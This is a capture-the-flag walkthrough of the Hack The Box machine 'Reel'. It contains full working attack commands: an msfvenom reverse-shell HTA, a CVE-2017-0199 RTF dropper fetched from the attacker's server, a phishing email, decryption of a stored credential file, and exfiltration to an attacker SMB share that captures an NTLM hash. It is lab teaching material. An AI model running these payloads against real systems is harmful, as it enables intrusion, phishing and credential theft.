

---
search:
  exclude: true
---
# Reel Writeup

## Introduction :

Reel is a hard windows box released back in June 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/2 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.77 --max-retries 0 -Pn --min-rate=500 | grep Discovered                                                
    [sudo] password for nothing:
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Discovered open port 135/tcp on 10.10.10.77
    Discovered open port 21/tcp on 10.10.10.77
    Discovered open port 22/tcp on 10.10.10.77
    Discovered open port 139/tcp on 10.10.10.77
    Discovered open port 25/tcp on 10.10.10.77
    Discovered open port 445/tcp on 10.10.10.77
    Discovered open port 49159/tcp on 10.10.10.77
    Discovered open port 593/tcp on 10.10.10.77
    
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/2 ] [~]
    → sudo nmap -sCV -p21,22,139,25,445,593,49159 10.10.10.77                                                                                                                                                                                                                           
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-12 17:16 CET
    Nmap scan report for 10.10.10.77
    Host is up (0.035s latency).
    
    PORT      STATE SERVICE      VERSION
    21/tcp    open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_05-28-18  11:19PM       <****DIR>          documents
    | ftp-syst:
    |_  SYST: Windows_NT
    22/tcp    open  ssh          OpenSSH 7.6 (protocol 2.0)
    | ssh-hostkey:
    |   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
    |   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
    |_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
    25/tcp    open  smtp?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
    |     220 Mail Service ready
    |   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
    |     220 Mail Service ready
    |     sequence of commands
    |     sequence of commands
    |   Hello:
    |     220 Mail Service ready
    |     EHLO Invalid domain address.
    |   Help:
    |     220 Mail Service ready
    |     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    |   SIPOptions:
    |     220 Mail Service ready
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |     sequence of commands
    |   TerminalServerCookie:
    |     220 Mail Service ready
    |_    sequence of commands
    | smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP,
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: HTB)
    593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    49159/tcp open  msrpc        Microsoft Windows RPC
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port25-TCP:V=7.91%I=7%D=1/12%Time=5FFDCB73%P=x86_64-pc-linux-gnu%r(NULL
    SF:,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20S
    SF:ervice\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")%
    SF:r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20EH
    SF:LO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n"
    SF:)%r(GenericLines,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x20s
    SF:equence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r
    SF:\n")%r(GetRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x20
    SF:sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\
    SF:r\n")%r(HTTPOptions,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x
    SF:20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20command
    SF:s\r\n")%r(RTSPRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad
    SF:\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comma
    SF:nds\r\n")%r(RPCCheck,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNSVer
    SF:sionBindReqTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNSStatusReq
    SF:uestTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SSLSessionReq,18,"2
    SF:20\x20Mail\x20Service\x20ready\r\n")%r(TerminalServerCookie,36,"220\x20
    SF:Mail\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20commands\r\
    SF:n")%r(TLSSessionReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Kerbero
    SF:s,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SMBProgNeg,18,"220\x20Mai
    SF:l\x20Service\x20ready\r\n")%r(X11Probe,18,"220\x20Mail\x20Service\x20re
    SF:ady\r\n")%r(FourOhFourRequest,54,"220\x20Mail\x20Service\x20ready\r\n50
    SF:3\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\
    SF:x20commands\r\n")%r(LPDString,18,"220\x20Mail\x20Service\x20ready\r\n")
    SF:%r(LDAPSearchReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(LDAPBindRe
    SF:q,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SIPOptions,162,"220\x20Ma
    SF:il\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n5
    SF:03\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of
    SF:\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\
    SF:x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comman
    SF:ds\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequenc
    SF:e\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\
    SF:x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x2
    SF:0commands\r\n");
    Service Info: Host: REEL; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: -1s, deviation: 1s, median: -2s
    | smb-os-discovery:
    |   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
    |   OS CPE: cpe:/o:microsoft:windows_server_2012::-
    |   Computer name: REEL
    |   NetBIOS computer name: REEL\x00
    |   Domain name: HTB.LOCAL
    |   Forest name: HTB.LOCAL
    |   FQDN: REEL.HTB.LOCAL
    |_  System time: 2021-01-12T16:19:31+00:00
    | smb-security-mode:
    |   account_used: <****blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: required
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-01-12T16:19:32
    |_  start_date: 2021-01-12T16:10:40
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 206.48 seconds

## **Part 2 : Getting User Access**

Our nmap scan picked up port 21 so let's investigate it: 
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/1 ] [~]
    → ftp 10.10.10.77
    Connected to 10.10.10.77.
    220 Microsoft FTP Service
    Name (10.10.10.77:nothing): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    05-28-18  11:19PM       <****DIR>          documents
    226 Transfer complete.
    ftp> cd documents
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    05-28-18  11:19PM                 2047 AppLocker.docx
    05-28-18  01:01PM                  124 readme.txt
    10-31-17  09:13PM                14581 Windows Event Forwarding.docx
    226 Transfer complete.
    ftp> mget *
    mget AppLocker.docx?
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 9 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    2047 bytes received in 0.03 secs (63.6166 kB/s)
    mget readme.txt?
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    124 bytes received in 0.03 secs (3.6738 kB/s)
    mget Windows Event Forwarding.docx?
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 51 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    14581 bytes received in 0.07 secs (200.3977 kB/s)
    ftp> ^C
    ftp> exit
    221 Goodbye.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/1 ] [~/_HTB/reel]
    → l
    total 32K
    drwxr-xr-x 2 nothing nothing 4.0K Jan 12 17:29  .
    drwxr-xr-x 3 nothing nothing 4.0K Jan 12 17:29  ..
    -rw-r--r-- 1 nothing nothing 2.0K Jan 12 17:27  AppLocker.docx
    -rw-r--r-- 1 nothing nothing  122 Jan 12 17:27  readme.txt
    -rw-r--r-- 1 nothing nothing  15K Jan 12 17:27 'Windows Event Forwarding.docx'
    
    [ 10.10.14.16/23 ] [ /dev/pts/1 ] [~/_HTB/reel]
    → cat readme.txt
    please email me any rtf format procedures - I'll review and convert.
    
    new format / converted documents will be saved here.%
    
    

Let's use exiftool to check out the metadata of these files since readme didn't give us anything specific:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/1 ] [~/_HTB/reel]
    → exiftool AppLocker.docx
    ExifTool Version Number         : 12.13
    File Name                       : AppLocker.docx
    Directory                       : .
    File Size                       : 2047 bytes
    File Modification Date/Time     : 2021:01:12 17:27:13+01:00
    File Access Date/Time           : 2021:01:12 17:27:13+01:00
    File Inode Change Date/Time     : 2021:01:12 17:29:40+01:00
    File Permissions                : rw-r--r--
    File Type                       : DOCX
    File Type Extension             : docx
    MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
    Zip Required Version            : 20
    Zip Bit Flag                    : 0x0008
    Zip Compression                 : Deflated
    Zip Modify Date                 : 2018:05:29 00:19:50
    Zip CRC                         : 0x3cdd8b4f
    Zip Compressed Size             : 166
    Zip Uncompressed Size           : 284
    Zip File Name                   : _rels/.rels
    
    

Not much in Applocker.docx, However in the last file we see a bit more useful infos:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/1 ] [~/_HTB/reel]
    → exiftool Windows\ Event\ Forwarding.docx
    ExifTool Version Number         : 12.13
    File Name                       : Windows Event Forwarding.docx
    Directory                       : .
    File Size                       : 14 KiB
    File Modification Date/Time     : 2021:01:12 17:27:15+01:00
    File Access Date/Time           : 2021:01:12 17:31:26+01:00
    File Inode Change Date/Time     : 2021:01:12 17:29:48+01:00
    File Permissions                : rw-r--r--
    File Type                       : DOCX
    File Type Extension             : docx
    MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
    Zip Required Version            : 20
    Zip Bit Flag                    : 0x0006
    Zip Compression                 : Deflated
    Zip Modify Date                 : 1980:01:01 00:00:00
    Zip CRC                         : 0x82872409
    Zip Compressed Size             : 385
    Zip Uncompressed Size           : 1422
    Zip File Name                   : [Content_Types].xml
    Creator                         : nico@megabank.com
    Revision Number                 : 4
    Create Date                     : 2017:10:31 18:42:00Z
    Modify Date                     : 2017:10:31 18:51:00Z
    Template                        : Normal.dotm
    Total Edit Time                 : 5 minutes
    Pages                           : 2
    Words                           : 299
    Characters                      : 1709
    Application                     : Microsoft Office Word
    Doc Security                    : None
    Lines                           : 14
    Paragraphs                      : 4
    Scale Crop                      : No
    Heading Pairs                   : Title, 1
    Titles Of Parts                 :
    Company                         :
    Links Up To Date                : No
    Characters With Spaces          : 2004
    Shared Doc                      : No
    Hyperlinks Changed              : No
    App Version                     : 14.0000
    
    

For instance, this time we get a few more informations such as the username **nico** at the domain name **megabank.com** so let's add it to our hosts file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/4 ] [~/HTB/Reel]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.77 megabank.com' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 megabank.com
    PING megabank.com (10.10.10.77) 56(84) bytes of data.
    64 bytes from megabank.com (10.10.10.77): icmp_seq=1 ttl=127 time=450 ms
    
    --- megabank.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 450.267/450.267/450.267/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.66.66.2/32 ] [ /dev/pts/4 ] [~/HTB/Reel]
    →
    
    

So let's open up the docx document and see what's in it using libreoffice:

However that's about it for ftp, now let's move on to that smtp port using telnet Which is where we need to send a malicious email which contains a malicious .rtf file as we got hinted to do earlier, to the nico user. We're going to use [CVE-2017-0199](https://www.exploit-db.com/exploits/41934) :

First we generate the HTA file:
    
    
    [ 10.10.16.9/23 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=9001 -f hta-psh -o msfv.hta
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of hta-psh file: 7431 bytes
    Saved as: msfv.hta
    
    [term2]
    [ 10.10.16.9/23 ] [ /dev/pts/14 ] [HTB/Reel/CVE-2017-0199]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    

Note that this msfv.hta file is going to trigger the reverse shell connection back to us on port **9001** so don't forget to have your netcat ready

Then we generate the RTF file:
    
    
    [ 10.10.16.9/23 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → git clone https://github.com/bhdresh/CVE-2017-0199
    Cloning into 'CVE-2017-0199'...
    remote: Enumerating objects: 298, done.
    remote: Total 298 (delta 0), reused 0 (delta 0), pack-reused 298
    Receiving objects: 100% (298/298), 288.09 KiB | 1.20 MiB/s, done.
    Resolving deltas: 100% (102/102), done.
    
    [ 10.10.16.9/23 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → cd CVE-2017-0199
    
    [ 10.10.16.9/23 ] [ /dev/pts/2 ] [HTB/Reel/CVE-2017-0199]
    → python2 cve-2017-0199_toolkit.py -M gen -w nihilist.rtf -u http://10.10.16.9/msfv.hta -t rtf -x 0
    Generating normal RTF payload.
    
    Generated nihilist.rtf successfully
    
    

Note the **-u** parameter which is going to be the URL from which the box is going to get the **msfv.hta** file from, and next step is to send the phishing email with the **sendEmail** utility:
    
    
    [term1]
    [ 10.10.16.9/23 ] [ /dev/pts/16 ] [~/HTB/Reel]
    → ls -lash msfv.hta; sudo python3 -m http.server 80
    8.0K -rw-r--r-- 1 nothing nothing 7.3K Dec 26 18:55 msfv.hta
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    
    [term2]
    [ 10.10.16.9/23 ] [ /dev/pts/2 ] [HTB/Reel/CVE-2017-0199]
    → sendEmail -f nihilist@megabank.com -t nico@megabank.com -u "check the attached file" -m "very important mail" -a nihilist.rtf -s 10.129.179.102 -v
    Dec 26 19:08:30 nowhere sendEmail[885036]: DEBUG => Connecting to 10.129.179.102:25
    Dec 26 19:08:30 nowhere sendEmail[885036]: DEBUG => My IP address is: 10.10.16.9
    Dec 26 19:08:30 nowhere sendEmail[885036]: SUCCESS => Received:         220 Mail Service ready
    Dec 26 19:08:30 nowhere sendEmail[885036]: INFO => Sending:     EHLO nowhere
    Dec 26 19:08:30 nowhere sendEmail[885036]: SUCCESS => Received:         250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
    Dec 26 19:08:30 nowhere sendEmail[885036]: INFO => Sending:     MAIL FROM:<****nihilist@megabank.com>
    Dec 26 19:08:30 nowhere sendEmail[885036]: SUCCESS => Received:         250 OK
    Dec 26 19:08:30 nowhere sendEmail[885036]: INFO => Sending:     RCPT TO: <****nico@megabank.com>
    Dec 26 19:08:30 nowhere sendEmail[885036]: SUCCESS => Received:         250 OK
    Dec 26 19:08:30 nowhere sendEmail[885036]: INFO => Sending:     DATA
    Dec 26 19:08:30 nowhere sendEmail[885036]: SUCCESS => Received:         354 OK, send.
    Dec 26 19:08:30 nowhere sendEmail[885036]: INFO => Sending message body
    Dec 26 19:08:30 nowhere sendEmail[885036]: Setting content-type: text/plain
    Dec 26 19:08:30 nowhere sendEmail[885036]: DEBUG => Sending the attachment [nihilist.rtf]
    Dec 26 19:08:43 nowhere sendEmail[885036]: SUCCESS => Received:         250 Queued (12.220 seconds)
    Dec 26 19:08:43 nowhere sendEmail[885036]: Email was sent successfully!  From: <****nihilist@megabank.com> To: <****nico@megabank.com> Subject: [check the attached file] Attachment(s): [nihilist.rtf] Server: [10.129.179.102:25]

Then we need to wait a few minutes for nico to fall for the phishing attempt, and we get a shell:
    
    
    [ 10.10.16.9/23 ] [ /dev/pts/14 ] [HTB/Reel/CVE-2017-0199]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.16.9] from (UNKNOWN) [10.129.179.102] 51538
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    htb\nico
    
    

And we got a reverse shell connection ! We are now logged in as the nico user, so let's see if we can get the user flag:
    
    
    C:\Windows\system32>cd ../../
    cd ../../
    
    C:\>cd Users\
    cd Users\
    
    C:\Users>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users
    
    03/11/2017  23:09    DIR>          .
    03/11/2017  23:09    DIR>          ..
    25/10/2017  20:48    DIR>          .NET v2.0
    25/10/2017  20:48    DIR>          .NET v2.0 Classic
    01/11/2017  21:58    DIR>          .NET v4.5
    01/11/2017  21:58    DIR>          .NET v4.5 Classic
    16/02/2018  23:29    DIR>          Administrator
    04/11/2017  23:05    DIR>          brad
    30/10/2017  23:00    DIR>          claire
    25/10/2017  20:48    DIR>          Classic .NET AppPool
    03/11/2017  23:09    DIR>          herman
    31/10/2017  22:27    DIR>          julia
    26/12/2021  12:30    DIR>          nico
    22/08/2013  15:39    DIR>          Public
    28/10/2017  21:32    DIR>          SSHD
    16/11/2017  22:35    DIR>          tom
                   0 File(s)              0 bytes
                  16 Dir(s)  15,739,142,144 bytes free
    
    C:\Users>cd nico
    cd nico
    
    C:\Users\nico>cd desktop
    cd desktop
    
    C:\Users\nico\Desktop>type user.txt
    type user.txt
    faXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the user flag!

## **Part 3 : Getting Root Access**

Now on nico's desktop we see the following:
    
    
    C:\Users\nico\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users\nico\Desktop
    
    28/05/2018  20:07    DIR>          .
    28/05/2018  20:07    DIR>          ..
    27/10/2017  23:59             1,468 cred.xml
    27/10/2017  23:40                32 user.txt
                   2 File(s)          1,500 bytes
                   2 Dir(s)  15,739,027,456 bytes free
    
    C:\Users\nico\Desktop>type cred.xml
    type cred.xml
    <****Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"> <****Obj RefId="0"> <****TN RefId="0"> <****T>System.Management.Automation.PSCredential <****/T> <****T>System.Object <****/T> <****/TN> <****ToString>System.Management.Automation.PSCredential <****/ToString> <****Props> <****S N="UserName">HTB\Tom <****/S> <****SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692 <****/SS> <****/Props> <****/Obj> <****/Objs>

Here we see an output of the **Export-CliXml** command, which is this **cred.xml** file, we can get the password of tom out of it: 
    
    
    C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
    powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
    
    
    UserName       : Tom
    Password       : **1ts-mag1c!!!**
    SecurePassword : System.Security.SecureString
    Domain         : HTB
    
    

And we have tom's password! Now let's ssh as the tom user using his password:
    
    
    [ 10.10.16.9/23 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → ssh tom@megabank.com
    The authenticity of host 'megabank.com (10.129.179.102)' can't be established.
    ED25519 key fingerprint is SHA256:fIZnS9nEVF3o86fEm/EKspTgedBr8TvFR0i3Pzk40EQ.
    This key is not known by any other names
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'megabank.com' (ED25519) to the list of known hosts.
    tom@megabank.com's password:
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    tom@REEL C:\Users\tom>whoami
    htb\tom
    
    

And we now have access to tom's system account! Let's take a look around:
    
    
    tom@REEL C:\Users\tom>dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users\tom
    
    11/16/2017  10:35 PM    DIR>          .
    11/16/2017  10:35 PM    DIR>          ..
    10/27/2017  11:38 PM    DIR>          Contacts
    05/29/2018  07:57 PM    DIR>          Desktop
    10/27/2017  11:38 PM    DIR>          Documents
    10/29/2017  09:08 PM    DIR>          Downloads
    10/27/2017  11:38 PM    DIR>          Favorites
    10/27/2017  11:38 PM    DIR>          Links
    10/27/2017  11:38 PM    DIR>          Music
    10/27/2017  11:38 PM    DIR>          Pictures
    10/27/2017  11:38 PM    DIR>          Saved Games
    10/27/2017  11:38 PM    DIR>          Searches
    10/27/2017  11:38 PM    DIR>          Videos
                   0 File(s)              0 bytes
                  13 Dir(s)  15,736,729,600 bytes free
    
    tom@REEL C:\Users\tom>cd Desktop
    
    tom@REEL C:\Users\tom\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users\tom\Desktop
    
    05/29/2018  07:57 PM    DIR>          .
    05/29/2018  07:57 PM    DIR>          ..
    05/29/2018  08:02 PM    DIR>          AD Audit
                   0 File(s)              0 bytes
                   3 Dir(s)  15,736,729,600 bytes free
    
    tom@REEL C:\Users\tom\Desktop>cd "AD Audit"
    
    tom@REEL C:\Users\tom\Desktop\AD Audit>
    tom@REEL C:\Users\tom\Desktop\AD Audit>dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users\tom\Desktop\AD Audit
    
    05/29/2018  08:02 PM    DIR>          .
    05/29/2018  08:02 PM    DIR>          ..
    05/29/2018  11:44 PM    DIR>          BloodHound
    05/29/2018  08:02 PM               182 note.txt
                   1 File(s)            182 bytes
                   3 Dir(s)  15,736,729,600 bytes free
    
    tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
    Findings:
    
    Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).
    
    Maybe we should re-run Cypher query against other groups we've created.
    

Here we are hinted that there has been an AD audit, let's see if we have access to interesting bloodhound files:
    
    
    tom@REEL C:\Users\tom\Desktop\AD Audit>cd BloodHound
    
    tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users\tom\Desktop\AD Audit\BloodHound
    
    05/29/2018  11:44 PM    DIR>          .
    05/29/2018  11:44 PM    DIR>          ..
    05/29/2018  07:57 PM    DIR>          Ingestors
    10/30/2017  10:15 PM           769,587 PowerView.ps1
                   1 File(s)        769,587 bytes
                   3 Dir(s)  15,736,729,600 bytes free
    
    tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>cd Ingestors
    
    tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1
    
     Directory of C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors
    
    05/29/2018  07:57 PM    DIR>          .
    05/29/2018  07:57 PM    DIR>          ..
    11/16/2017  11:50 PM           112,225 acls.csv
    10/28/2017  08:50 PM             3,549 BloodHound.bin
    10/24/2017  03:27 PM           246,489 BloodHound_Old.ps1
    10/24/2017  03:27 PM           568,832 SharpHound.exe
    10/24/2017  03:27 PM           636,959 SharpHound.ps1
                   5 File(s)      1,568,054 bytes
                   2 Dir(s)  15,736,729,600 bytes free
    
    

So let's transfer the bloodhound files back to our local machine:
    
    
    [term 1]
    [ 10.10.16.9/23 ] [ /dev/pts/14 ] [~/HTB/Reel]
    → impacket-smbserver -smb2support nihilist .
    Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    
    [term 2]
    tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy * \\10.10.16.9\nihilist\
    acls.csv
    BloodHound.bin
    BloodHound_Old.ps1
    SharpHound.exe
    SharpHound.ps1
            5 file(s) copied.
    
    [term 1]
    [*] Incoming connection (10.129.179.102,61795)
    [*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
    [*] User REEL\tom authenticated successfully
    [*] tom::HTB:aaaaaaaaaaaaaaaa:97ed7e26f0ec5b28ae6cb130414917ed:0101000000000000809d2c0658fbd70124aa28f4ea690e2f00000000010010007700660056004200780073004100710003001000770066005600420078007300410071000200100043007700570048007300450056005300040010004300770057004800730045005600530007000800809d2c0658fbd701060004000200000008003000300000000000000000000000003000005085ea7922d5329d13836e2e2a7350eacf7ee793c7c9205c7ad5e64f5183febb0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000
    [*] Connecting Share(1:IPC$)
    [*] Connecting Share(2:nihilist)
    
    ^C
    
    [ 10.10.16.9/23 ] [ /dev/pts/14 ] [~/HTB/Reel]
    → ls -lash
    total 1.6M
    4.0K drwxr-xr-x 3 nothing nothing 4.0K Dec 27 20:29 .
    4.0K drwxr-xr-x 3 nothing nothing 4.0K Dec 25 21:26 ..
    112K -rwxr-xr-x 1 nothing nothing 110K May 29  2018 acls.csv
    4.0K -rwxr-xr-x 1 nothing nothing 3.5K Oct 29  2017 BloodHound.bin
    244K -rwxr-xr-x 1 nothing nothing 241K Oct 29  2017 BloodHound_Old.ps1
    4.0K drwxr-xr-x 4 nothing nothing 4.0K Dec 26 19:00 CVE-2017-0199
    8.0K -rw-r--r-- 1 nothing nothing 7.3K Dec 26 18:55 msfv.hta
    556K -rwxr-xr-x 1 nothing nothing 556K Oct 29  2017 SharpHound.exe
    624K -rwxr-xr-x 1 nothing nothing 623K Oct 29  2017 SharpHound.ps1
    
    

Now that we have transfered the files back to our machine, let's inspect them using bloodhound:
    
    
    [ 10.10.16.9/23 ] [ /dev/pts/15 ] [~/Tools]
    → sudo apt install neo4j
    
    [ 10.10.16.9/23 ] [ /dev/pts/15 ] [~/Tools]
    → sudo neo4j console
    Directories in use:
    home:         /usr/share/neo4j
    config:       /usr/share/neo4j/conf
    logs:         /usr/share/neo4j/logs
    plugins:      /usr/share/neo4j/plugins
    import:       /usr/share/neo4j/import
    data:         /usr/share/neo4j/data
    certificates: /usr/share/neo4j/certificates
    licenses:     /usr/share/neo4j/licenses
    run:          /usr/share/neo4j/run
    Starting Neo4j.
    2021-12-27 20:10:00.054+0000 INFO  Starting...
    2021-12-27 20:10:00.455+0000 INFO  This instance is ServerId{39ac0325} (39ac0325-ca50-4041-ba6d-444c78dc4026)
    2021-12-27 20:10:02.130+0000 INFO  ======== Neo4j 4.4.2 ========
    2021-12-27 20:10:03.469+0000 INFO  Initializing system graph model for component 'security-users' with version -1 and status UNINITIALIZED
    2021-12-27 20:10:03.473+0000 INFO  Setting up initial user from defaults: neo4j
    2021-12-27 20:10:03.474+0000 INFO  Creating new user 'neo4j' (passwordChangeRequired=true, suspended=false)
    2021-12-27 20:10:03.481+0000 INFO  Setting version for 'security-users' to 3
    2021-12-27 20:10:03.483+0000 INFO  After initialization of system graph model component 'security-users' have version 3 and status CURRENT
    2021-12-27 20:10:03.488+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
